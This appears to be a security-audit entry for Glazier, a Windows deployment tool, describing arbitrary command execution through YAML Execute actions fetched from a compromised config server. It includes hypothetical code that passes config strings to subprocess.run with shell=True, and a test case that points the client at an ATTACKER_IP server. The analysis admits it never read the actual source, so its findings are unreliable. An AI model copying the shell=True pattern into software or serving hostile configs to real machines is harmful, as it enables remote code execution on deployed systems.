 ### Vulnerability List

- Vulnerability Name: Unsafe Command Execution in Execute Action
- Description:
    1. An attacker compromises or controls the web server hosting Glazier configuration files.
    2. The attacker creates a malicious YAML configuration file.
    3. In this malicious YAML file, the attacker crafts an `Execute` action.
    4. Within the `Execute` action, the attacker injects a malicious command, for example, to create a file, modify the registry, or download and execute malware.  Since the `Execute` action in Glazier is designed to run arbitrary commands on the system, and if there is no proper input validation or sanitization of the commands provided in the YAML configuration, Glazier will directly execute these attacker-supplied commands.
    5. A target system configured to use this compromised configuration server fetches the malicious YAML file via HTTPS.
    6. Glazier parses the malicious YAML file and, according to the configuration, prepares to execute the actions, including the attacker-injected `Execute` action.
    7. When the `Execute` action is processed, Glazier executes the malicious command on the target Windows system with the privileges of the Glazier process (which are typically elevated to perform system deployment tasks).
- Impact: Arbitrary command execution on the target system. This can lead to:
    - Full system compromise.
    - Installation of malware or ransomware.
    - Data exfiltration.
    - System instability or denial of service (although DoS is explicitly excluded as a vulnerability type, actions leading to it as a side effect of other impacts are still relevant).
    - Privilege escalation if Glazier is running with higher privileges.
- Vulnerability Rank: Critical
- Currently Implemented Mitigations:
    - HTTPS is enforced for fetching configuration files, which provides confidentiality and integrity during transit, protecting against man-in-the-middle attacks during download. However, this does not prevent attacks originating from a compromised or malicious server.
    - Based on the provided documentation, there is no explicit mention of input sanitization or validation for the commands executed by the `Execute` action.
- Missing Mitigations:
    - Input sanitization and validation for all commands and arguments passed to the `Execute` action. Implement a strict whitelist of allowed commands or sanitize user-provided input to prevent command injection.
    - Principle of least privilege: Ensure Glazier runs with the minimum necessary privileges required to perform its tasks. Avoid running Glazier as SYSTEM if lower privileges are sufficient for certain stages.
    - Consider using parameterized commands or a safer command execution mechanism that avoids direct shell command interpretation.
    - Implement integrity checks for the configuration files themselves, such as digital signatures, to ensure that the fetched YAML files are from a trusted source and haven't been tampered with.
- Preconditions:
    - The attacker must be able to control or compromise the web server that hosts the Glazier YAML configuration files.
    - The target system must be configured to fetch its Glazier configuration from this attacker-controlled web server.
    - Glazier must process a malicious YAML file containing the crafted `Execute` action.
- Source Code Analysis:
    - To confirm this vulnerability, the source code of the `Execute` action (`glazier/lib/actions/execute.py`) needs to be analyzed.
    - Assuming the `Execute` action (as described in `docs/actions.md`) takes a list of commands as arguments (`Arg1[list]`) where `ArgA[str]` is the command line to execute.
    - If the code directly uses `ArgA[str]` in a function like `subprocess.Popen(ArgA[str], shell=True)` or similar without any sanitization or validation, it is vulnerable.
    - Example hypothetical vulnerable code in `glazier/lib/actions/execute.py`:
    ```python
    import subprocess
    from glazier.lib.actions.base import BaseAction, ActionError

    class Execute(BaseAction):
        """Runs shell commands."""

        def Run(self):
            for command_config in self._args:
                command = command_config[0]
                try:
                    subprocess.run(command, shell=True, check=True) # Hypothetically vulnerable line
                except subprocess.CalledProcessError as e:
                    raise ActionError(f"Command failed: {command}. Error: {e}")

    ```
    - In this hypothetical code, the `command` variable, directly taken from the YAML, is passed to `subprocess.run` with `shell=True`, which is known to be vulnerable to command injection if the input is not carefully sanitized.
- Security Test Case:
    1. **Setup Attacker Server**: Set up a simple HTTP server (e.g., using Python's `http.server`) on an attacker-controlled machine. Let's say the attacker's server IP is `ATTACKER_IP` and it's serving on port 8000.
    2. **Create Malicious YAML Config**: On the attacker's server, create a directory structure that mimics Glazier's config layout. Inside the config root, create a `build.yaml` file with the following content:
        ```yaml
        controls:
        - Execute:
          - ['cmd.exe /c echo vulnerable > C:\\test_vuln.txt']
        ```
    3. **Configure Glazier Client**: On a test Windows machine (the Glazier client), configure Glazier to fetch its configuration from the attacker's server. This usually involves setting the `--config_server` flag to `http://ATTACKER_IP:8000` and `--config_root_path` to `/config`. (Note: in a real scenario, HTTPS would be used, but for a test in a controlled environment, HTTP can simplify setup).
    4. **Run Glazier**: Boot the test Windows machine into WinPE or the Glazier environment and start the Glazier autobuild process. Ensure it is configured to use the attacker's server for configuration.
    5. **Verify Vulnerability**: After Glazier runs (or attempts to run), check on the test Windows machine if the file `C:\test_vuln.txt` has been created.
    6. **Success/Failure**: If `C:\test_vuln.txt` exists and contains "vulnerable", it confirms that the `Execute` action executed the injected command from the malicious YAML, demonstrating the command injection vulnerability. If the file is not created, further investigation is needed, but the vulnerability might still exist if other actions are vulnerable or if the command injection point is different.